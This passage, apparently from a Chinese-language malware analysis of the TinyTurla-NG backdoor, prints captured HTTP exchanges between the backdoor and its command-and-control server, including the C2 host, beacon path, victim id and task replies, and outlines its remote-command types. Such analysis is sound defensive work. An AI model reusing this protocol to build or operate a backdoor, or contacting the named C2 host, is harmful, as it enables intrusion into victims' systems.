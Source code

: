 ```bash

Client Ready
-----
....  

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:35:54 GMT
Content-Length: 4

rsp:
```

### 远控功能

通过分析，发现 TinyTurla-NG 新后门支持多种远控指令，通信模型结构主要有两种类型：

-   远控指令为除上传文件、下载文件外的常规指令；
-   远控指令为上传文件、下载文件类指令；

#### 常规指令

常规指令的通信模型情况如下：

```bash
#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 175
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="gettask"
Content-Type: text/plain

-----
.a

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:01 GMT
Content-Length: 15

rsp:timeout 1 1

#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 267
Host: jeepcarlease.com
```